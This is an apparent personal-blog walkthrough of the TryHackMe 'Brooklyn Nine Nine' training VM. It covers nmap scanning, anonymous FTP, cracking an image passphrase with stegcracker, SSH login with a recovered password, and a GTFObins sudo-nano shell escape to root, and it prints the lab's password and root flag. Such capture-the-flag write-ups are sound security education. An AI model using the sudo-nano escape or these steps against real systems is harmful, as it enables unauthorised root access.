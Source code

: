 ```yaml
---
title: "Tryhackme - Brooklyn Nine Nine Walkthrough"
date: 2020-10-18
tags: [tryhackme, walkthrough, linux]
header:
  image: "/images/unknowndevice64-thumbnail.jpg"
excerpt: "Walkthroughs"
---
```


# TryHackMe - Brooklyn99 Walkthrough

Hello everyone, today I will explain the walkthrough for Brooklyn99 Virtual Machine from TryHackMe

**TOP KEYWORDS**: #steganography, #steghide, #stegcracker, #sudo privilege escalation, #GTFObins, #sudo root shell

## Information Gathering

Firstly, We start with nmap scanning:

```
root@kali:~/BrooklynNineNine# nmap -p- -T4 -A 10.10.76.41
...
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
...
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
...
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
...
```

We see that we can have **Anonymous FTP session**.

We don't find any exploit for OpenSSH version.

Also I want to investigate the website.

When I viewed the page source of the website I can see that There is some commment ant it said you can try some **steganography**. I download the picture and, firstly, I will try using **steghide**, but I cannot know the passphrase, so I changed my tool and used **stegcracker**.

```
root@kali:~/BrooklynNineNine# stegcracker brooklyn99.jpg 
...
Your file has been written to: brooklyn99.jpg.out
admin
```

Bingo! Our passphrase is _admin_. then I tried to read the comment inside the picture.

```
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

## Exploit

It means that we can have a SSH session.

```
root@kali:~/BrooklynNineNine# ssh holt@10.10.76.41
holt@10.10.76.41's password: 
Permission denied, please try again.
holt@10.10.76.41's password: 
Permission denied, please try again.
holt@10.10.76.41's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$
```

We find the user flag - _user.txt_.

## Privilege Escalation

Then I will try a privilege escalation. 
```
sudo -l
```

I saw that I can run `nano` using `SUDO`. I use **GTFObins** to find out how can I take root shell.
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
# whoami
root
# cd /root/
# ls
root.txt
# cat root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845
```

Victory!